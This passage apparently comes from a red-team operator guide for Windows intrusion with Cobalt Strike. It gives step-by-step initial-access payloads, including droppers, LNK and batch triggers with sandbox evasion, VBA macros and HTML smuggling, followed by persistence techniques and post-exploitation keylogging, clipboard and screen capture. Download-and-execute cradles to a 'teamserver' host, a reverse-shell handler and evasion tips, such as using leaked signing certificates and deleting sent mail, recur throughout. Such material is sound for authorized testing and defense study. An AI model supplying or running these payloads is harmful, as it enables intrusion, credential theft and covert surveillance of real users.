%ProgramFiles%\Microsoft Office\root\Office16\Library\ | No |
%ProgramFiles%\Microsoft Office\root\Office16\STARTUP\ | No |
%ProgramFiles%\Microsoft Office\root\Office16\XLSTART\ | No |
%APPDATA%\Microsoft\Excel\XLSTART\ | Yes |
%APPDATA%\Microsoft\Templates\ | Yes |
Methodology
- Create a new Excel workbook, open the VB editor (
Alt+F11), insert a module, and add macro code:Private Sub Auto_Open() MsgBox "Hello World", vbOKOnly, "pwned" End Sub - Save the workbook as an Excel Add-In (
*.xlam). - Copy the XLAM to the trusted XLSTART directory and reopen Excel:
cp payload.xlam "$env:APPDATA\Microsoft\Excel\XLSTART\"
4.7 Code Signing
Code signing directly affects the trust model for technologies like SmartScreen. Files signed by a trusted authority produce fewer security warnings, increasing the probability a victim executes the payload. AV and EDR products may also treat signed binaries more favorably.
| Certificate Type | Effect |
|---|---|
| Standard | Adds a digital signature to verify integrity; still shows "Unknown Publisher" warnings |
| EV (Extended Validation) | Makes publisher identity trusted by SmartScreen; removes all "Unknown Publisher" warnings |
Official EV certificates require a vetted business entity and cost several hundred dollars per year from authorities like DigiCert or GlobalSign. Signing initial access payloads with your own company certificate risks revocation if samples reach VirusTotal. Alternatives include maintaining shell companies, or sourcing leaked certificates from public repositories, S3 buckets, or forums. Regardless of your position on the ethics, defenders must model this threat.
4.8 Droppers
A dropper delivers another program, typically by extracting embedded resources or downloading them over HTTP(S) or DNS. Using a dropper instead of packaging the payload directly into the container evades AV and complicates analysis of the infection chain.
Methodology
- Create a .NET Framework Class Library project in Visual Studio. Add the payload (e.g.
http_x64.exe) as an Embedded Resource. - Write dropper logic in the class constructor to extract the resource, drop it to
C:\ProgramData, and execute it:var assembly = Assembly.GetExecutingAssembly(); using (var rs = assembly.GetManifestResourceStream("MyDropper.http_x64.exe")) { var path = Environment.GetFolderPath(Environment.SpecialFolder.CommonApplicationData); var newPath = Path.Combine(path, "MyLegitApp"); var newDir = Directory.CreateDirectory(newPath); var filePath = Path.Combine(newDir.FullName, "MyApp.exe"); using (var fs = File.Create(filePath)) { rs.CopyTo(fs); rs.Close(); } Process.Start(filePath); } - Serialize the DLL to JavaScript using GadgetToJScript:
C:\Tools\GadgetToJScript\GadgetToJScript.exe -a MyDropper.dll -w js -b -o C:\Payloads\dropper - Execute the resulting
dropper.jsviawscriptor double-click.
| G2JS Flag | Purpose |
|---|---|
-w | Output script type: js, vbs, vba, hta |
-b | Bypass type check controls in .NET Framework 4.8+ |
-o | Output path (excluding file extension) |
OPSEC
- Drop payloads into standard program directories (
C:\ProgramData) rather than temp or home folders — execution from user-writable temp paths raises EDR alerts. - The embedded resource name must be prefixed with the project namespace (e.g.
MyDropper.http_x64.exe).
4.9 Triggers
The trigger is the file the victim interacts with after extracting the container. It should require minimal user effort, ideally just a double-click.
4.9.1 Batch Files
Batch files (.bat, .cmd, .btm) execute commands via cmd.exe. Use @echo off to suppress command output and append > nul 2>&1 to commands that produce visible output.
- Create a basic batch trigger that runs the payload and opens a decoy:
@echo off start payload.exe start decoy.pdf exit - Add sandbox evasion by detecting double-click vs command-line execution:
@echo off echo %cmdcmdline% | find /i "%~f0" || exit start payload.exe start decoy.pdf exit
The sandbox evasion trick works because %cmdcmdline% contains the batch file path when double-clicked, but only C:\Windows\System32\cmd.exe when run from an existing shell. Automated sandboxes execute scripts programmatically, so the payload never fires.
4.9.2 Shell Link (LNK)
Shell links (.lnk) are binary shortcut files whose extension is hidden in Explorer even with "show extensions" enabled. This lets filenames like report.pdf.lnk appear as report.pdf. Combined with a custom icon, LNK files are one of the most deceptive triggers.
- Create a LNK that runs a payload and opens a decoy:
$wsh = New-Object -ComObject WScript.Shell $lnk = $wsh.CreateShortcut("C:\Payloads\trigger.pdf.lnk") $lnk.TargetPath = "%COMSPEC%" $lnk.Arguments = "/C start payload.exe && start decoy.pdf" $lnk.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13" $lnk.Save() - For an XLAM payload, copy the add-in to XLSTART and open a decoy spreadsheet:
$lnk.Arguments = "/C xcopy /H macros.xlam %APPDATA%\Microsoft\Excel\XLSTART\ && attrib -H %APPDATA%\Microsoft\Excel\XLSTART\macros.xlam && start sales.xlsx" $lnk.IconLocation = "%ProgramFiles%\Microsoft Office\root\Office16\EXCEL.EXE,0" $lnk.Save()
4.9.3 Complete LNK Script
- Full LNK creation with payload, decoy, and custom icon:
$wsh = New-Object -ComObject WScript.Shell $lnk = $wsh.CreateShortcut("C:\Payloads\trigger.pdf.lnk") $lnk.TargetPath = "%COMSPEC%" $lnk.Arguments = "/C start payload.exe && start decoy.pdf" $lnk.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13" $lnk.Save()
4.9.4 Microsoft Saved Console (MSC)
The GrimResource technique (discovered by Elastic) uses a crafted .msc file and an unpatched XSS flaw to trigger JavaScript via mmc.exe. Because MMC is an auto-elevating binary, a local admin victim gets a UAC prompt and the payload runs at high integrity.
- Create the VBScript payload wrapped in an XSL stylesheet:
<?xml version='1.0'?> <stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="placeholder" version="1.0"> <output method="text"/> <ms:script implements-prefix="user" language="VBScript"> <![CDATA[ Set wshshell = CreateObject("WScript.Shell") wshshell.run "C:\\Windows\\System32\\cmd.exe" ]]></ms:script> </stylesheet> - URL-encode the payload (e.g. via CyberChef) and paste into line 105 of the MSC template:
xsl.loadXML(unescape("<ENCODED SCRIPT HERE>")) - Double-click the MSC file to trigger execution via
mmc.exe.
4.10 Containers
Containers bundle trigger, payload, and decoy into a single deliverable file. The right container format can strip MotW from extracted files, hiding payloads with the hidden attribute, and simplifying delivery to a single download.
| Format | Native Support | MotW Propagation | Hidden Files |
|---|---|---|---|
| ISO / IMG | Yes (mount) | Not propagated to contents | Yes |
| ZIP | Yes (Explorer) | Propagated | No |
| WIM | Yes (DISM) | Not propagated | Yes |
| 7z / GZ / RAR | No (third-party) | Varies | Varies |
Methodology
- Pack a payload into an ISO using PackMyPayload:
python3 PackMyPayload.py test.pdf test.iso - Pack multiple files into an IMG with hidden attributes on the decoy and payload:
python3 PackMyPayload.py -H decoy.xlsx,payload.xlam /mnt/c/Payloads/xlam /mnt/c/Payloads/xlam/package.img - Verify MotW is stripped after mounting the container:
Get-Content -Stream Zone.Identifier .\extracted_file.pdf
OPSEC
- ISO/IMG mounting creates a visible drive letter in Explorer — use realistic volume labels.
- Hide all files except the trigger inside the container using the
-Hflag so the user only sees the LNK or BAT.
4.11 VBA Macros
Visual Basic for Applications (VBA) macros remain a viable payload mechanism when MotW is stripped by the container. Use AutoOpen to trigger execution when the document opens. Files with MotW will open in Protected View with macros disabled, so container-based MotW stripping or internal email delivery is required.
Methodology
- In Word, go to View > Macros > Create. Set "Macros in" to the current document and name it
AutoOpen:Sub AutoOpen() Dim Shell As Object Set Shell = CreateObject("wscript.shell") Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://teamserver/a'))""" End Sub - Remove metadata: File > Info > Inspect Document > Remove All next to Document Properties and Personal Information.
- Save as Word 97-2003 (
.doc) format. The legacy format is more convincing than.docmand supports embedded macros.
OPSEC
- Documents attached directly to internal email do not carry MotW and skip Protected View entirely.
- Macro-enabled documents downloaded via browser will trigger both SmartScreen and Protected View unless MotW is stripped first.
4.12 Remote Template Injection
A benign .docx is sent to the victim. When opened, it fetches a remote template (.dot) containing a malicious macro. The initial document appears clean to static analysis since the macro payload lives on the attacker's server.
Methodology
- Create a macro-enabled Word 97-2003 Template (
.dot) with your payload macro. Host it on your team server. - Create a new
.docxdocument with benign content. Open the archive with 7-Zip, navigate toword/_rels/settings.xml.rels, and modify theTargetattribute to point to your hosted template:Target="http://teamserver.com/template.dot" - Alternatively, automate the injection with remoteinjector.py:
python3 remoteinjector.py -w http://teamserver.com/template.dot /mnt/c/Payloads/document.docx
OPSEC
- The template URL is visible in the XML — use a domain that blends with the pretext.
- The victim still sees a macro warning prompt when the remote template loads.
4.13 HTML Smuggling
HTML smuggling embeds base64-encoded file content directly in an HTML page and uses JavaScript to decode and trigger a browser download at runtime. Scanners only see HTML and JavaScript in transit, with no application/octet-stream content type or hardcoded download URLs.
Methodology
- Base64-encode your container file:
base64 -w 0 package.iso > encoded.txt - Embed the encoded content in an HTML smuggling template:
<script> function convertFromBase64(base64) { let binary_string = window.atob(base64); let len = binary_string.length; let bytes = new Uint8Array(len); for (let i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); } return bytes.buffer; } function downloadFile() { const file = 'BASE64_CONTENT_HERE'; const fileName = 'package.iso'; let data = convertFromBase64(file); let blob = new Blob([data], {type: 'octet/stream'}); const a = document.createElement('a'); document.body.appendChild(a); a.style = 'display: none'; const url = window.URL.createObjectURL(blob); a.href = url; a.download = fileName; a.click(); window.URL.revokeObjectURL(url); } </script> - Host the HTML page and deliver the URL to the victim. The browser downloads the file automatically on page load or button click.
Files downloaded via HTML smuggling still receive MotW from the browser, so pair this delivery method with a container that strips it (e.g. ISO or IMG). For additional obfuscation, use the Web Crypto API to AES-encrypt the embedded content and decrypt it in the JavaScript.
4.14 SVG Smuggling
SVG smuggling uses the same principle as HTML smuggling but packages the JavaScript inside an SVG file. Because SVG supports embedded <script> elements and browsers like Edge handle .svg as a default file type, standalone SVG files can act as payload containers that trigger a download when opened.
Methodology
- Embed the smuggling JavaScript inside an SVG file with valid SVG markup. Deliver the
.svgfile as an email attachment or download link.
4.15 Password Spraying
Password spraying tests a single common password against many accounts, avoiding lockout thresholds. Against Exchange OWA, a timing attack can first validate which usernames exist before spraying begins. Successful credentials enable internal phishing with higher trust and no MotW.
Methodology
- Import MailSniper and enumerate the target domain NetBIOS name:
Import-Module C:\Tools\MailSniper\MailSniper.ps1 Invoke-DomainHarvestOWA -ExchHostname mail.target.com - Generate username permutations from harvested names:
~/namemash.py names.txt > possible.txt - Validate usernames via OWA timing attack:
Invoke-UsernameHarvestOWA -ExchHostname mail.target.com -Domain target.com -UserList .\possible.txt -OutFile .\valid.txt - Spray a password against valid accounts:
Invoke-PasswordSprayOWA -ExchHostname mail.target.com -UserList .\valid.txt -Password [password] - Download the Global Address List with valid credentials for further targeting:
Get-GlobalAddressList -ExchHostname mail.target.com -UserName target.com\jsmith -Password [password] -OutFile .\gal.txt
OPSEC
- Spray one password per lockout window to avoid triggering account lockout policies.
- MailSniper supports OWA, EWS, and EAS endpoints — choose whichever is exposed and least monitored.
4.16 Internal Phishing
With valid credentials from password spraying or credential theft, you can send phishing emails from a compromised internal mailbox. Internal emails carry higher trust, bypass external email gateway filtering, and files attached to internal emails do not receive MotW.
Methodology
- Log into OWA with compromised credentials.
- Search the mailbox for sensitive documents, credentials, or files that can be backdoored and re-sent.
- Compose a phishing email using an HTML template. Attach your payload or embed a link to a smuggling page.
OPSEC
- Sending from a compromised mailbox is logged in Exchange — limit volume and timing to match normal behavior.
- Delete sent items to reduce the chance the compromised user notices the activity.
5. Persistence
Persistence (MITRE TA0003) maintains access to a compromised system across reboots, logoffs, and other interruptions. Techniques modify system configuration so a payload re-executes on a predefined trigger. This chapter covers userland persistence only; elevated techniques appear in a separate chapter.
| Technique | MITRE ID | Trigger | Artifact |
|---|---|---|---|
| Registry Run Keys | T1547.001 | User logon | Registry value + EXE on disk |
| Startup Folder | T1547.001 | User logon | EXE or LNK in startup directory |
| Logon Script | T1037.001 | User logon | Registry value + EXE on disk |
| PowerShell Profile | T1546.013 | PowerShell session opened | profile.ps1 on disk |
| Scheduled Tasks | T1053.005 | Configurable (time, logon, idle) | Task XML + EXE on disk |
| COM Hijacking | T1546.015 | COM object loaded | Registry key + DLL on disk |
5.1 Registry Run Keys
The Windows registry contains keys that auto-execute programs at user logon. Two keys exist under HKCU: Run persists across every reboot, while RunOnce self-deletes after its first execution.
| Key | Behavior |
|---|---|
HKCU\Software\Microsoft\Windows\CurrentVersion\Run | Executes every logon, persists indefinitely |
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce | Executes once, then auto-deletes |
HKLM\Software\Microsoft\Windows\CurrentVersion\Run | Executes for any user logon (requires admin to write) |
A common misconception is that HKLM autoruns execute as SYSTEM. They do not. An HKLM autorun triggers when any user logs in but runs under that user's context.
Methodology
- Upload payload to a plausible directory and rename it:
cd C:\Users\[user]\AppData\Local\Microsoft\WindowsApps upload C:\Payloads\http_x64.exe mv http_x64.exe updater.exe - Write the Run key using
reg_set:reg_set HKCU Software\Microsoft\Windows\CurrentVersion\Run Updater REG_EXPAND_SZ %LOCALAPPDATA%\Microsoft\WindowsApps\updater.exe - Verify the key was written correctly:
reg_query HKCU Software\Microsoft\Windows\CurrentVersion\Run Updater - Clean up when no longer needed:
reg_delete HKCU Software\Microsoft\Windows\CurrentVersion\Run Updater
OPSEC
- Registry modifications generate event logs (Sysmon Event ID 13) — use inconspicuous value names and plausible file paths.
- Autorun entries are trivially enumerable by defenders via
Autoruns.exeorreg query— blend with legitimate software naming conventions. - Payload on disk is subject to AV scanning at write time and at execution — consider signed binaries or DLL side-loading.
5.2 Startup Folder
Files placed in the user's startup folder execute automatically at logon. The folder path is %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup. Any executable, shortcut, or script dropped here will run under the user's context.
Methodology
- Upload payload directly to the startup folder:
cd C:\Users\[user]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup upload C:\Payloads\http_x64.exe mv http_x64.exe updater.exe - Delete the file when persistence is no longer needed:
rm updater.exe
OPSEC
- Files in the startup folder are visible to the user if they browse to the directory — use a plausible filename.
- Dropping an unsigned EXE triggers Windows Defender scans — consider a signed loader or LNK shortcut pointing to a payload elsewhere.
5.3 Logon Script
The HKCU\Environment registry key stores user environment variables such as %Path% and %TEMP%. Adding a UserInitMprLogonScript value causes Windows to execute the specified program at every user logon. This technique is less well-known than Run keys and often evades basic autorun checks.
Methodology
- Ensure the payload is already staged on disk (see section 5.1).
- Set the logon script registry value:
reg_set HKCU Environment UserInitMprLogonScript REG_EXPAND_SZ %USERPROFILE%\AppData\Local\Microsoft\WindowsApps\updater.exe - Clean up by deleting the value:
reg_delete HKCU Environment UserInitMprLogonScript
OPSEC
- The
Environmentkey is not checked by many autorun scanners — this provides better stealth than standard Run keys. - The script executes before the desktop loads, so the user may notice a delay if the payload blocks — use an asynchronous execution method.
5.4 PowerShell Profile
A PowerShell profile (profile.ps1) is a script that runs each time a user opens a PowerShell session. Developers use profiles to customize their shell environment. An attacker can create or modify a profile to execute arbitrary code whenever the target opens PowerShell.
| Profile Path | Scope |
|---|---|
$HOME\Documents\WindowsPowerShell\Profile.ps1 | Current user, Windows PowerShell |
$HOME\Documents\PowerShell\Profile.ps1 | Current user, PowerShell Core |
The profile script must not block, or the user will not receive a prompt until it finishes. Use Start-Job or similar to run the payload asynchronously.
Methodology
- Check if the profile directory exists; create it if missing:
mkdir C:\Users\[user]\Documents\WindowsPowerShell - Create the profile script with a non-blocking payload:
$_ = Start-Job -ScriptBlock { iex (new-object net.webclient).downloadstring("http://teamserver/a") } - Upload the profile to the target:
upload C:\Payloads\Profile.ps1 - Clean up by deleting the profile:
rm Profile.ps1
OPSEC
- Only triggers when the user opens PowerShell — unreliable if the target rarely uses it.
- Script Block Logging (Event ID 4104) records the profile contents — the payload will be logged in plaintext if SBL is enabled.
- AMSI scans profile scripts at load time — obfuscation or a download cradle may be needed to bypass it.
5.5 Scheduled Tasks
The Windows Task Scheduler executes actions based on configurable triggers. Triggers include time-based schedules, user logon, system idle, and system events. Tasks are defined in XML format and can be created via BOFs or native tooling.
| Trigger Type | Use Case |
|---|---|
LogonTrigger | Fires when a specific user logs in |
TimeTrigger | Fires at a scheduled time (daily, weekly, hourly) |
IdleTrigger | Fires when the system goes idle |
BootTrigger | Fires at system startup (requires elevation) |
EventTrigger | Fires on a specific Windows event |
Methodology
- Prepare the task XML definition (logon trigger example):
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"> <Triggers> <LogonTrigger> <Enabled>true</Enabled> <UserId>[DOMAIN]\[user]</UserId> </LogonTrigger> </Triggers> <Principals> <Principal> <UserId>[DOMAIN]\[user]</UserId> </Principal> </Principals> <Settings> <AllowStartOnDemand>true</AllowStartOnDemand> <Enabled>true</Enabled> </Settings> <Actions> <Exec> <Command>%LOCALAPPDATA%\Microsoft\WindowsApps\updater.exe</Command> </Exec> </Actions> </Task> - Create the scheduled task using the
schtaskscreateBOF (file dialog selects the XML):schtaskscreate \Updater XML CREATE - Delete the task when no longer needed:
schtasksdelete \Updater
OPSEC
- Task creation generates Event ID 4698 (Security) and Event ID 106 (Task Scheduler Operational) — use a plausible task name in a subfolder.
- Scheduled tasks are visible in
taskschd.mscand viaschtasks /query— defenders routinely audit these. - XML-based creation via BOF avoids spawning
schtasks.exe, which reduces command-line logging artifacts.
5.6 COM Hijacking
The Component Object Model (COM) is an interoperability standard that allows applications to reuse shared libraries. Each COM object is identified by a CLSID (a GUID) stored in the registry, with an InProcServer32 or LocalServer32 subkey pointing to the implementing DLL or EXE. COM hijacking substitutes a legitimate COM reference with a malicious one so an application loads attacker-controlled code instead.
| Registry Hive | Scope | Priority |
|---|---|---|
HKCU\Software\Classes\CLSID | Current user | Higher (checked first) |
HKLM\Software\Classes\CLSID | All users | Lower (fallback) |
If a CLSID exists only in HKLM, writing a matching entry in HKCU causes the user-level entry to take precedence. The original application loads the attacker's DLL transparently. Alternatively, if a COM entry references a file that no longer exists on disk (a "phantom" COM object), an attacker can place a DLL at that path.
5.6.1 Hunting for Hijackable CLSIDs
Use Process Monitor (procmon) to find abandoned COM references in real time. Apply the following filters:
| Filter | Value |
|---|---|
| Operation | RegOpenKey |
| Path contains | InprocServer32 or LocalServer32 |
| Result | NAME NOT FOUND |
Perform this analysis in a lab VM that replicates the target environment. Interact with the system (open menus, launch applications) to generate COM load events. Pay attention to load frequency: hijacking a CLSID that fires every few seconds will spawn excessive callbacks and destabilize the host.
The MsCtfMonitor task (CLSID {01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}) triggers at user logon and is a well-known hijack candidate.
Methodology
- Enumerate scheduled tasks with COM Custom Triggers running as Users:
$Tasks = Get-ScheduledTask foreach ($Task in $Tasks) { if ($Task.Actions.ClassId -ne $null) { if ($Task.Triggers.Enabled -eq $true) { if ($Task.Principal.GroupId -eq "Users") { Write-Host "Task:" $Task.TaskName Write-Host "CLSID:" $Task.Actions.ClassId } } } }
5.6.2 Exploitation
- Verify the target CLSID exists in HKLM but not HKCU:
Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" - Create the HKCU registry entries pointing to the payload DLL:
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll" New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both" - Trigger the hijack by logging out and back in (or wait for the COM object to load naturally).
- Clean up by removing the HKCU registry entries and deleting the DLL:
Remove-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Recurse
OPSEC
- COM hijacks do not appear in standard autorun checks unless the defender specifically enumerates
HKCU\Software\Classes\CLSID— this makes them stealthier than Run keys. - Hijacking a high-frequency CLSID spawns repeated callbacks and may crash the host — always profile load frequency in a lab first.
- The DLL must export
DllGetClassObjector proxy to the original COM server to avoid breaking application functionality. - Sysmon Event ID 13 (registry value set) captures the hijack if monitoring covers
HKCU\Software\Classes\CLSID.
6. Post-Exploitation
Post-exploitation begins immediately after gaining initial access. The operator must map the host, locate objectives, identify privileged users, and plan a path forward; all without triggering defensive controls. This chapter covers situational awareness, command execution patterns, session management, host reconnaissance primitives, and data hunting.
6.1 Situational Awareness
Situational awareness is the first phase after landing a Beacon. The goal is to profile the host and its environment before performing any further actions.
| Question | Why It Matters |
|---|---|
| What defensive products are running? | AV/EDR determines which tools and techniques are safe to use. |
| Which users are logged in? | Identifies token theft and impersonation opportunities. |
| What privileges does the current user hold? | Determines whether privilege escalation is needed. |
| Are there mapped drives or interesting shares? | Reveals data exfiltration paths and lateral movement targets. |
| What .NET and PowerShell versions are installed? | Dictates payload compatibility and AMSI bypass requirements. |
| What local security policies apply? | UAC hardening, SMB signing, and credential guard affect technique selection. |
Methodology
- Identify the current user and hostname:
whoami /all hostname - List running processes to identify security products:
ps - Enumerate logged-in users:
net logons - Check local group memberships:
run net localgroup Administrators - Enumerate network shares and mapped drives:
net share drives - Check installed .NET and PowerShell versions:
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP" /s $PSVersionTable
6.2 Command Behavior
Every Beacon command falls into a category that determines its detection surface. Understanding these categories helps operators choose the safest primitive for a given situation.
| Category | Behavior | Examples |
|---|---|---|
| Configuration | Changes a runtime setting in Beacon memory. No code execution. | sleep, spawnto, jobs, ppid |
| API-only | Calls Win32 APIs directly from the Beacon process. Most benign operational commands. | cd, cp, ls, mv, ps, pwd, rm, upload |
| Inline Execute (BOF) | Loads a compiled object file into Beacon memory. No new process. If the BOF crashes, Beacon dies. | dllload, getsystem, timestomp, inline-execute |
| Fork & Run (spawn) | Spawns a temporary process via spawnto, injects a reflective DLL, reads output over a named pipe. | execute-assembly, powerpick |
| Fork & Run (explicit) | Injects a reflective DLL into an existing process. Useful for running under another user context. | psinject, keylogger [pid] [arch] |
Commands that accept [pid] and [arch] arguments support the explicit variant. Commands without those arguments use the spawn variant.
| Variant | Syntax | Example |
|---|---|---|
| Spawn | mimikatz [module::command] <args> | mimikatz sekurlsa::logonpasswords |
| Explicit | mimikatz [pid] [arch] [module::command] <args> | mimikatz 1234 x64 sekurlsa::logonpasswords |
OPSEC
- Fork & run creates a new process and performs cross-process injection; both generate telemetry (process creation, remote thread, named pipe). Prefer BOF or API-only alternatives when available.
- The explicit variant avoids spawning a new process but still injects into a remote one. Use it against processes you own to reduce suspicion.
- A crashing BOF kills the entire Beacon. Test BOFs in a lab before running on production targets.
6.3 Session Passing
Session passing spawns new Beacon sessions from existing ones. A common pattern is to maintain a slow DNS Beacon as a lifeline while spawning an HTTP Beacon for active post-exploitation work.
Methodology
- Spawn a new Beacon on a different listener:
spawn x64 http - Spawn a Beacon as another user with plaintext credentials:
spawnas DOMAIN\user password listener - If
spawnasreturns error 267, change the working directory first:cd C:\ spawnas DOMAIN\user password listener - Inject arbitrary shellcode into a new process with
shspawn:shspawn x64 C:\Payloads\payload.bin - Inject shellcode into an existing process with
shinject:shinject [pid] x64 C:\Payloads\payload.bin
6.3.1 Foreign Listeners
A foreign listener stages Meterpreter HTTP/HTTPS implants from Beacon. It only supports x86 staged payloads. Configure the listener host and port to match the MSF multi/handler.
- Start a Meterpreter handler (must use staged
reverse_http):msfconsole -q use exploit/multi/handler set payload windows/meterpreter/reverse_http set LHOST eth0 set LPORT 8080 run - Create a Foreign HTTP listener in Cobalt Strike matching the handler host and port
- Spawn a Meterpreter session from Beacon:
spawn x86 msf
OPSEC
spawnasfails from a SYSTEM context; usemake_tokeninstead to create a token with the target credentials.- Foreign listeners only support x86 staged payloads. For x64 or stageless, generate raw shellcode with
msfvenomand inject withshspawn/shinject. - Every
spawncreates a new process. Batch session passes during expected activity windows.
6.4 File System
File system interaction is one of the most basic enumeration primitives. Beacon provides API-only commands for directory listing, navigation, and file management that avoid spawning cmd.exe.
| Command | Description |
|---|---|
ls | List files in current or specified directory |
cd [path] | Change working directory (absolute or relative) |
pwd | Print current working directory |
drives | List available drives on the host |
cp [src] [dst] | Copy a file |
mv [src] [dst] | Move a file |
rm [path] | Remove a file or directory |
upload [file] | Upload a file from operator machine to target |
Methodology
- List the root directory:
ls C:\ - Enumerate user home directories:
ls C:\Users - Check for additional drives:
drives - Open the graphical file browser for interactive exploration:
file_browser
The file browser GUI can also be opened via right-click on a Beacon and selecting Explore > File Browser. Greyed-out directories have not been listed yet. Double-click to drill down. Closing the tab discards all cached data.
6.5 Downloading Files
File downloads are transferred over the C2 channel. Download speed depends on the protocol (HTTP is faster than DNS A records) and the Beacon sleep time.
Methodology
- Download a file from the target:
download C:\Users\victim\Desktop\secrets.txt - Check in-progress downloads:
downloads - Cancel a running download:
cancel [download_id] - Sync downloaded files to your local machine via View > Downloads > Sync Files
OPSEC
- Large file downloads over slow channels (DNS) take a long time and generate sustained traffic patterns. Use an HTTP Beacon for bulk transfers.
- Downloaded files land on the team server first, not the operator workstation. Sync manually via the UI.
6.6 Processes
The ps command lists running processes with PID, parent PID, architecture, session ID, and owning user. Output is ordered by PID with child processes indented under parents. Running in medium integrity limits visibility to processes owned by the current user.
Methodology
- List all running processes:
ps - Open the graphical process browser:
process_browser
Look for defensive products in the process list: MsMpEng.exe (Defender), Sysmon64.exe, elastic-agent.exe, elastic-endpoint.exe, CrowdStrike processes, and custom EDR agents.
6.7 User Sessions
Users logged into the current machine may hold higher domain privileges. Identifying them early helps prioritize lateral movement targets.
Methodology
- List logon sessions on the current host:
net logons
6.8 Keylogger
The keylogger captures keystrokes from the user who owns the target process. Output goes to View > Keystrokes (not the Beacon console). It runs as a long-term job.
Methodology
- Start a keylogger in a new spawned process:
keylogger - Inject the keylogger into a specific process (captures that user's keystrokes):
keylogger [pid] [x86|x64] - List active jobs and kill the keylogger when done:
jobs jobkill [JID]
OPSEC
- The spawn variant creates a temporary process; visible in process listings. Prefer the explicit variant to inject into an existing user-owned process.
- Keylogger output accumulates on the team server. Delete entries after review to limit exposure.
6.9 Clipboard
The clipboard command captures text currently on the user's clipboard. This is a one-off command (not a job) that dumps output directly to the Beacon console. Effective for grabbing credentials from password managers that use copy/paste.
Methodology
- Read the current clipboard contents:
clipboard
6.10 Registry
Beacon can query the local registry to read security policies, installed software, persistence mechanisms, and configuration data. The reg command supports both broad enumeration and targeted value reads.
| Subcommand | Description |
|---|---|
reg query [x86|x64] [root\path] | List all subkeys and values at the path |
reg queryv [x86|x64] [root\path] [key] | Read a specific value |
Supported root keys: HKLM, HKCR, HKCC, HKCU, HKU. Specify x86 or x64 to force a specific registry view.
Methodology
- Check UAC and local policy settings:
reg query x64 HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System - Read a specific policy value:
reg queryv x64 HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System ConsentPromptBehaviorAdmin - Check for
LocalAccountTokenFilterPolicy(required for pass-the-hash with local admins):reg queryv x64 HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System LocalAccountTokenFilterPolicy
6.11 Screenshots
Screenshots reveal what the user is working on; applications, documents, shortcuts, and internal systems. Beacon offers three methods with different trade-offs.
| Command | Behavior | Notes |
|---|---|---|
printscreen | Sends a PrintScr keypress, grabs from clipboard, clears clipboard after | Destructive to clipboard. Use sparingly. |
screenshot | Uses a post-ex DLL to capture the screen directly. One-shot. | No clipboard interference. |
screenwatch | Continuous screenshots at each Beacon check-in. Idles at 3-min intervals. | Long-running job. Kill with jobkill. |
All variants support both spawn (screenshot) and explicit (screenshot [pid] [x86|x64]) modes. Output is sent to View > Screenshots.
Methodology
- Take a single screenshot:
screenshot - Start continuous screenshots (frequency equals sleep time):
screenwatch - Adjust screenshot frequency by changing sleep:
sleep 5 - Stop the screenwatch job:
jobs jobkill [JID]
6.12 VNC
Cobalt Strike injects a reflective VNC server DLL to provide real-time remote desktop access. A reverse port forward tunnels VNC traffic back through Beacon to the team server. The session starts in view-only mode; operators can take keyboard and mouse control via buttons in the VNC tab.
Methodology
- Start a VNC session (spawn variant):
desktop high - Start VNC in a specific process (explicit variant):
desktop [pid] [x86|x64] high
OPSEC
- VNC creates a reverse port forward binding on a local port; visible via
netstat. - Closing the VNC tab automatically tears down the port bindings.
- High-quality mode generates more network traffic. Use
lowover slow channels.
6.13 Execution Commands
The shell and run commands execute arbitrary programs on the target. Both return output but differ in execution method.
| Command | Execution Method | Use Case |
|---|---|---|
shell [cmd] [args] | Executes via cmd.exe /c | Built-in commands like dir, type, pipe operators |
run [program] [args] | Executes the program directly (no cmd.exe) | Standalone executables in %PATH% |
Commands like dir only exist inside cmd.exe and require shell. Programs like whoami.exe work with either command.
OPSEC
- Both commands spawn child processes; generating process creation events. Prefer API-only Beacon alternatives:
lsoverdir,getuidoverwhoami. shellspawnscmd.exeas an additional child process, doubling the telemetry. Userunwhen possible.
6.14 Executing Custom Tools
Beacon supports in-memory execution of PowerShell scripts, .NET assemblies, and BOFs. This avoids dropping files to disk and gives operators broad flexibility to bring external tooling into the engagement.
6.14.1 PowerShell Execution
| Command | Behavior |
|---|---|
powershell [cmd] | Runs via powershell.exe with -EncodedCommand. Generates powershell.exe process creation events. |
powerpick [cmd] | Unmanaged PowerShell (no powershell.exe). Fork & run; spawns spawnto, injects DLL, reads output via named pipe. |
psinject [pid] [arch] [cmd] | Unmanaged PowerShell injected into an existing process. Runs in that user's context. |
- Import an external PowerShell script (path is local to the operator machine):
powershell-import C:\Tools\PowerView.ps1 - Run an imported cmdlet without
powershell.exe:powerpick Get-Domain - Run a cmdlet in another user's process context:
psinject [pid] x64 Get-Domain
Beacon can only hold one imported script at a time. Importing a new script replaces the previous one.
6.14.2 .NET Assemblies
